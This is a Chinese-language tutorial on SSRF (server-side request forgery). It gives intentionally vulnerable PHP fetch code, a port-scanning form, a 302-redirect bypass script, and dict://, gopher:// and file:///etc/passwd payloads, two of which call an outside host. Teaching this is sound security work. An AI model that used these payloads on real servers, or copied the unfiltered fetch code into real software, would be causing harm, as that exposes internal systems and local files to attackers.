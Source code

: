 # SSRF

## SSRF 简介

SSRF，Server-Side Request Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作过滤和限制。

攻击者可以利用 SSRF 实现的攻击主要有 5 种：

1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息；
2. 攻击运行在内网或本地的应用程序（比如溢出）；
3. 对内网 web 应用进行指纹识别，通过访问默认文件实现；
4. 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）；
5. 利用 `file` 协议读取本地文件等。

## SSRF 漏洞出现的场景

- 能够对外发起网络请求的地方，就可能存在 SSRF 漏洞。
- 从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）。
- 数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）。
- Webmail 收取其他邮箱邮件（POP3、IMAP、SMTP）。
- 文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）。

## 常用的后端实现

1. `file_get_contents`

   ```php
   <?php
   if (isset($_POST['url'])) 
   { 
   $content = file_get_contents($_POST['url']); 
   $filename ='./images/'.rand().';img1.jpg'; 
   file_put_contents($filename, $content); 
   echo $_POST['url']; 
   $img = "<img src=\"".$filename."\"/>"; 
   } 
   echo $img; 
   ?>
   ```

   这段代码使用 `file_get_contents` 函数从用户指定的 URL 获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。

2. `fsockopen()`

   ```php
   <?php 
   function GetFile($host,$port,$link) 
   { 
   $fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
   if (!$fp) { 
   echo "$errstr (error number $errno) \n"; 
   } else { 
   $out = "GET $link HTTP/1.1\r\n"; 
   $out .= "Host: $host\r\n"; 
   $out .= "Connection: Close\r\n\r\n"; 
   $out .= "\r\n"; 
   fwrite($fp, $out); 
   $contents=''; 
   while (!feof($fp)) { 
   $contents.= fgets($fp, 1024); 
   } 
   fclose($fp); 
   return $contents; 
   } 
   }
   ?>
   ```

   这段代码使用 `fsockopen` 函数实现获取用户制定 URL 的数据（文件或者 HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

3. `curl_exec()`

   ```php
   <?php 
   if (isset($_POST['url']))
   {
   $link = $_POST['url'];
   $curlobj = curl_init();
   curl_setopt($curlobj, CURLOPT_POST, 0);
   curl_setopt($curlobj,CURLOPT_URL,$link);
   curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
   $result=curl_exec($curlobj);
   curl_close($curlobj);

   $filename = './curled/'.rand().'.txt';
   file_put_contents($filename, $result); 
   echo $result;
   }
   ?>
   ```

   使用 `curl` 获取数据。

## 阻碍 SSRF 漏洞利用的场景

- 服务器开启 OpenSSL 无法进行交互利用
- 服务端需要鉴权（Cookies & User：Pass）不能完美利用

## 利用 SSRF 进行端口扫描

根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的 banner 信息判断端口状态。

后端实现

```php
<?php 
if (isset($_POST['url']))
{
$link = $_POST['url'];
$filename = './curled/'.rand().'txt';
$curlobj = curl_init($link);
$fp = fopen($filename,"w");
curl_setopt($curlobj, CURLOPT_FILE, $fp);
curl_setopt($curlobj, CURLOPT_HEADER, 0);
curl_exec($curlobj);
curl_close($curlobj);
fclose($fp);
$fp = fopen($filename,"r");
$result = fread($fp, filesize($filename)); 
fclose($fp);
echo $result;
}
?>
```

构造一个前端页面

```html
<html>
<body>
<form name="px" method="post" action="http://127.0.0.1/ss.php">
<input type="text" name="url" value="">
<input type="submit" name="commit" value="submit">
</form>
<script></script>
</body>
</html>
```

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

> [腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)

## 协议利用

- Dict 协议

  ```
  dict://fuzz.wuyun.org:8080/helo:dict
  ```

- Gopher 协议

  ```
  gopher://fuzz.wuyun.org:8080/gopher
  ```

- File 协议

  ```
  file:///etc/passwd
  ```

## 参考资料

- [《Build Your SSRF EXP Autowork》猪猪侠](http://tools.40huo.cn/#!papers.md)
- [腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)
- [bilibili 某分站从信息泄露到 ssrf 再到命令执行](https://_thorns.gitbooks.io/sec/content/bilibilimou_fen_zhan_cong_xin_xi_xie_lu_dao_ssrf_z.html)